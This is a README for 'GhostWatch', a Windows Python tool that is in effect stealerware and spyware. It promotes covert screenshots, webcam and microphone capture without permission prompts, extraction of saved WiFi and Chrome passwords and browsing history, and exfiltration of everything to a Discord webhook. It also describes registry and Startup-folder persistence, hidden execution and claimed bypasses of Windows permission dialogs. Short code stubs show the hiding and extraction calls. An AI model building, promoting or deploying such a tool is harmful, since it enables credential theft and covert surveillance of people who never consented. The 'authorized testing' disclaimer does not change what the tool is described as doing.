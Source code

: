 🕵️‍♂️ GhostWatch - Advanced System Monitor
https://img.shields.io/badge/Python-3.8%252B-blue
https://img.shields.io/badge/Platform-Windows-lightgrey
https://img.shields.io/badge/Mode-Stealth-black

"The silent guardian that sees everything, hears everything, and tells no one but you."

GhostWatch is an advanced, self-installing system monitoring tool designed for legitimate penetration testing and authorized security auditing. It operates in complete stealth mode with zero user interaction required.

🚀 Features
🎯 Core Monitoring
📸 Real-time Screenshots - Captures screen every 3 seconds

📷 Stealth Webcam Access - Photos every 30 seconds (no permission prompts)

🎤 Ambient Audio Recording - 10-second recordings every 60 seconds

⚡ Auto-Start Persistence - Installs itself to run on every boot

🔍 Data Extraction
📡 WiFi Credentials - Extracts all saved WiFi passwords

🔑 Browser Passwords - Recovers Chrome saved credentials

🌐 Browsing History - Last 24 hours of Google Chrome history

💾 Auto-Export - All data sent directly to your Discord

🛡️ Stealth Technology
🔒 Zero Permission Prompts - Bypasses all Windows security dialogs

👻 Hidden Execution - Runs without console windows or notifications

🔄 Self-Compiling - Automatically converts to EXE on first run

⚡ Startup Persistence - Multiple auto-start methods for reliability

🛠️ Installation
One-Command Deployment
bash
python ghostwatch.py
That's it! The script will automatically:

✅ Install required dependencies

🔨 Compile itself to an executable

📁 Copy to startup folder

🔗 Add registry startup entries

🚀 Launch the stealth version

📁 Project Structure
text
ghostwatch/
├── ghostwatch.py                 # Main monitoring script
├── WindowsSystemMonitor.exe      # Auto-generated executable
├── dist/                         # Build directory
└── startup_entries/             # Persistence locations
    ├── Startup Folder
    ├── Registry Run Keys
    └── Scheduled Tasks
🔧 Technical Implementation
Stealth Mechanisms
python
# Admin privilege bypass
bypass_privileges()

# Camera/Mic permission bypass  
registry_modifications()

# Hidden process execution
ctypes.windll.user32.ShowWindow(0)
Persistence Methods
Startup Folder: %APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\

Registry Run Keys: HKCU\Software\Microsoft\Windows\CurrentVersion\Run

Self-Compilation: Auto-converts Python script to standalone EXE

Data Collection
python
# Multi-source data extraction
extract_wifi_passwords()      # Netsh commands
extract_chrome_passwords()    # SQLite database parsing  
extract_browser_history()     # Chrome history timeline
🎮 Usage
Initial Deployment
python
# Simply run once - handles everything automatically
monitor = GhostWatch("YOUR_DISCORD_WEBHOOK")
monitor.start_monitoring()
Monitoring Output
You'll receive real-time updates in your Discord channel:

text
🕵️‍♂️ GHOSTWATCH ACTIVATED
📸 Screenshot #45 - 14:23:11
📷 Webcam Photo #12 - 14:23:45  
🎤 Audio Recording #8 - 14:24:30
📡 WiFi Passwords (8 networks)
🔑 Chrome Credentials (23 logins)
🌐 Recent History (47 sites)
⚠️ Legal Disclaimer
FOR AUTHORIZED TESTING ONLY

This tool is designed for:

✅ Legitimate penetration testing

✅ Authorized security audits

✅ Educational purposes

✅ Personal system monitoring (your own devices)

🚫 PROHIBITED USES:

Unauthorized surveillance

Illegal monitoring activities

Privacy violations

Corporate espionage

The developers assume no liability for misuse. Always ensure you have explicit written permission before deploying any monitoring software.

🔄 Removal
Complete Uninstallation
powershell
# Run in PowerShell as Administrator
Remove-GhostWatch.ps1
Manual Removal Steps
Kill process: taskkill /f /im WindowsSystemMonitor.exe

Delete from startup folder

Remove registry entries

Delete executable files

🛡️ Security Features
Anti-Analysis: Self-compiling architecture

Persistence: Multiple startup mechanisms

Stealth: Zero UI, silent operation

Bypass: Admin and permission escalation

Auto-Cleanup: Temporary file management

📊 Data Flow
text
System Resources → Data Collection → Discord Webhook
     📸📷🎤           🔍📊📈              📨👁️
🎯 Use Cases
Penetration Testing: Internal security assessments

Incident Response: System activity monitoring

Digital Forensics: Evidence collection

Parental Control: Authorized family monitoring

Corporate Security: Employee device auditing (with consent)

🔮 Future Enhancements
Cross-platform support (Linux/macOS)

Encrypted communications

Remote command execution

Keylogging capabilities

Network traffic analysis

Cloud storage integration

⚡ GhostWatch - Because sometimes you need to see without being seen.

"Knowledge is power, but stealth is survival."
